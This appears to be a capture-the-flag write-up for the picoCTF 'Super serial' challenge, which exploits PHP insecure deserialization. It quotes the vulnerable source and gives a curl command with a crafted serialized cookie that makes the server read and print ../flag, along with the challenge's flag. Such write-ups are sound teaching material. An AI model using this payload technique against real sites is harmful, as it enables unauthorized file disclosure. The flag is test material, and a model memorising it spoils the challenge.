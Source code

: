 # Super serial

Try to recover the flag stored on this website http://mercury.picoctf.net:2148/

## Solution

At first glance, we see a login form. Nothing weird going on in the HTML. However, we do have a PHPSESSID present in the cookies.

Visiting /robots.txt reveals `Disallow: /admin.phps`. Interesting, a `.phps`-file. `http://mercury.picoctf.net:2148/admin.phps` cannot be found, but `http://mercury.picoctf.net:2148/index.phps` reveals the source code of `index.php`.

```
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
```

As we can see from the source code, `cookie.php` and `authentication.php` exists. Nothing special on the corresponding pages, but let's try the `.phps` versions.

Further inspection of `authentication.phps` and `cookie.phps` reveals the following code:

(from `cookie.phps`)
```
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```

(from `authentication.phps`)
```
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
```

The fact that the code is utilizing the function `unserialize` in `cookie.phps` is veeery dangerous, and I guess this is going to be the attack vector. If we set the cookie ```login``` to a base64 encoded serialized ```access_log``` class, the ```$g = $perm->is_guest();``` row will throw an error because no such function exists. The ```$perm``` object will get printed out due to the following code:

from `cookie.phps`:
```
catch(Error $e){
	die("Deserialization error. ".$perm);
}
```

from `authentication.phps`:
```
function __toString() {
    return $this->read_log();
}

function read_log() {
    return file_get_contents($this->log_file);
}
```

### Constructing the serialized object

The question now is, how to construct the serialized object, and what should ```$log_file``` be? At this point, I was pretty stuck, so I looked at one of the hints which revealed that ```The flag is at ../flag```, great!

I created my base64 encoded serialized object using ```serialize.php```. Now, all we need to do is:

```
$  curl --cookie "login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9" http://
mercury.picoctf.net:2148/authentication.php

Deserialization error. picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_8db8f85c}
```

which reveals the flag °˖✧◝(⁰▿⁰)◜✧˖°

### General remarks

This one was fun. I've seen ```unserialize```-vulns before, It's nice to come across them again + be able to exploit them.




